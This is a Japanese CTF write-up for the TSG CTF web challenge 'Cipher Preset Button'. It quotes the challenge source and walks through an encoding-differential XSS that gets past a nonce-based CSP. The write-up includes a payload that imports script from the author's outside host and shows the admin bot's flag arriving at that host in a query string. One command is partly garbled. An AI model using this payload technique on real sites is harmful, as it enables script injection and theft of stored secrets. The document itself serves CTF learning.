



# Cipher Preset Button:web:210pts
A prisoner of Neverland  

[http://104.198.119.144:7891](http://104.198.119.144:7891)  

[cipher_preset_button.tar.gz](cipher_preset_button.tar.gz)  

# Solution
URLとソースが渡される。  
アクセスすると`name`と`prefix`の入力を求められる。  
  
入力してみるとランダムなデータを暗号化することができるサービスのようだ。  
  
adminへの報告ボタンもあるので、XSS系統のようだ。  
ひとまずcrawler.jsのフラグの場所を確認する。  
```js
import { firefox } from 'playwright'
import { createClient, commandOptions } from 'redis'

const FLAG = process.env.FLAG

if (FLAG.length !== 48) {
  throw new Error('invalid flag')
}

const browser = await firefox.launch()

async function visit(path) {
  const target = new URL(path, process.env.SERVER_BASE_URL).toString()
  const page = await browser.newPage()
  await page.addInitScript(flag => {
    localStorage.setItem('key', flag)
  }, FLAG)
  await page.goto(target, { waitUntil: 'load', timeout: 2000 })
  await page.locator('#generate').click({ timeout: 2000 })
  await page.locator('#result').waitFor({ state: 'visible', timeout: 2000 })
  await page.close()
}

const client = createClient({
  url: process.env.REDIS_URL
})

await client.connect()

let controller = new AbortController()

process.on('SIGTERM', () => {
  controller.abort()
})

while (true) {
  console.log('[*] waiting new query...')
  const { element: path } = await client.blPop(commandOptions({ signal: controller.signal }), 'query', 0)
  const start = Date.now()
  console.log(`[*] start: ${path}`)
  try {
    await visit(path)
  } catch (e) {
    console.error(e.message)
  }
  console.log(`[*] proceeded: ${path} | ${Date.now() - start} msec`)
  await client.incr('proceeded_count')
}
```
`localStorage`に`key`として入っているようだ。  
Firefoxなので怪しいが、ひとまずXSSでこれを盗み出せばよい。  
次にサービス側のserver.jsを見ると以下の通りであった。  
```js
import crypto from 'node:crypto'
import { readFile } from 'node:fs/promises'
import bodyParser from 'body-parser'
import * as htmlEntities from 'html-entities'
import { nanoid } from 'nanoid'
import mongodb from 'mongodb'
import Mustache from 'mustache'
import polka from 'polka'
import { createClient } from 'redis'

const redisClient = createClient({
  url: process.env.REDIS_URL
})
redisClient.on('error', err => console.log('Redis Client Error', err))
await redisClient.connect()

const mongoClient = new mongodb.MongoClient(process.env.MONGO_URL)
const appDb = mongoClient.db('app_db')
const presetsCollection = appDb.collection('presets')

function sendJson(res, obj, status = 200) {
  res.statusCode = status
  res.setHeader('Content-Type', 'application/json')
  res.end(JSON.stringify(obj))
}

function cspMiddleware(req, res, next) {
  const nonce = crypto.randomBytes(16).toString('base64')
  res.nonce = nonce
  res.setHeader('Content-Security-Policy', `script-src 'nonce-${nonce}'; style-src 'nonce-${nonce}'; child-src 'self'; object-src 'none'`)
  next()
}

function sanitizeHtml(str) {
  // tags for metadata
  if (/meta|link/i.test(str)) {
    return htmlEntities.encode(str)
  }
  return str
}

function guardError(handler) {
  return async (req, res) => {
    try {
      await handler(req, res)
    } catch {
      res.status = 500
      res.setHeader('Content-Type', 'text/plain')
      res.end('internal error')
    }
  }
}

polka()
  .use(bodyParser.json(), cspMiddleware)
  .get('/', guardError(async (req, res) => {
    const template = await readFile('./index.tpl', 'utf-8')
    const html = Mustache.render(template, {
      nonce: res.nonce
    })
    res.setHeader('Content-Type', 'text/html')
    res.end(html)
  }))
  .get('/presets/:id', guardError(async (req, res) => {
    const preset = await presetsCollection.findOne({ id: req.params.id })
    if (!preset) {
      res.statusCode = 404
      res.setHeader('Content-Type', 'text/plain')
      res.end('not found')
      return
    }
    const template = await readFile('./preset.tpl', 'utf-8')
    const titleElem = `<title>${sanitizeHtml(preset.name)} - preset</title>`
    const html = Mustache.render(template, {
      titleElem,
      name: preset.name,
      prefix: preset.prefix,
      jsStr: JSON.stringify(preset.prefix).replaceAll('<', '\\x3c'),
      nonce: res.nonce
    })
    res.setHeader('Content-Type', 'text/html')
    res.end(html)
  }))
  .post('/preset', guardError(async (req, res) => {
    const { name, prefix } = req.body ?? {}
    if (typeof name !== 'string' || typeof prefix !== 'string') {
      sendJson(res, { message: 'invalid params' }, 400)
      return
    }
    if (name.length === 0) {
      sendJson(res, { message: 'name is empty' }, 400)
      return
    }
    if (prefix.length > 25) {
      sendJson(res, { message: 'prefix too long' }, 400)
      return
    }
    const id = nanoid()
    await presetsCollection.insertOne({ id, name, prefix })
    sendJson(res, { id })
  }))
  .post('/result', guardError((req, res) => {
    // TODO: save users' result
    sendJson(res, {})
  }))
  .post('/report', guardError(async (req, res) => {
    const targetPath = req.body?.path
    if (typeof targetPath !== 'string' || !targetPath.startsWith('/presets')) {
      sendJson(res, { message: 'specify path' }, 400)
      return
    }
    await redisClient.rPush('query', targetPath)
    await redisClient.incr('queued_count')
    sendJson(res, { message: 'Reported. Admin will check the page.' })
  }))
  .listen(7891, '0.0.0.0')
```
どうやら`title`で`meta`と`link`以外のタグを挿入できるようだ。  
ただし、CSPが`script-src 'nonce-${nonce}'; style-src 'nonce-${nonce}'; child-src 'self'; object-src 'none'`とされていて厳しい。  
Dangling Markup Injectionも可能だが、CSSの`#`で止まってしまうためscriptの`nonce`は奪えそうにない。  
ここで`name`と`prefix`のような二つの入力で文字エンコーディングを一時的にバグらせてXSSする「[Encoding Differentials: Why Charset Matters](https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/)」を思い出す。  
Content-Typeにcharsetがないことが条件なので、チェックする。  
```bash
$ curl http://104.198.119.144:7891/ -i
HTTP/1.1 200 OK
Content-Security-Policy: script-src 'nonce-omAJGzrY/+vcNSSxEx8Ojw=='; style-src 'nonce-omAJGzrY/+vcNSSxEx8Ojw=='; child-src 'self'; object-src 'none'
Content-Type: text/html
Date: Sun, 15 Dec 2024 06:29:00 GMT
Connection: close
Keep-Alive: timeout=5
Content-Length: 1435

<!DOCTYPE html>
<html lang="en">
<head>
  <title>Cipher Preset Button</title>
  <meta charset="UTF-8">
~~~
```
条件は満たすが、`<meta charset="UTF-8">`が邪魔であるため、`</title><img src=\"\u001b(J", "prefix": "\";import(`//s4t.pw`)//"}'
{"id":"j3vBwZ1jKz4riRhkTBuor"}
```
`http://104.198.119.144:7891/presets/j3vBwZ1jKz4riRhkTBuor`でalertし、うまく動いていることがわかる。  
  
あとはこれを以下のようにadminに報告するだけだ。  
```bash
$ curl -X POST http://104.198.119.144:7891/report -H 'Content-Type: application/json' -d '{"path":"/presets/j3vBwZ1jKz4riRhkTBuor"}'
{"message":"Reported. Admin will check the page."}
```
すると自身のサーバで以下のリクエストを受け取る。  
```
GET /
GET /?flag=TSGCTF{8ab2815d40|reset!if%20d<P653124710Y|ac7aa4}
```
URLのエンコードを直すとflagとなった。  

## TSGCTF{8ab2815d40|reset!if d<P653124710Y|ac7aa4}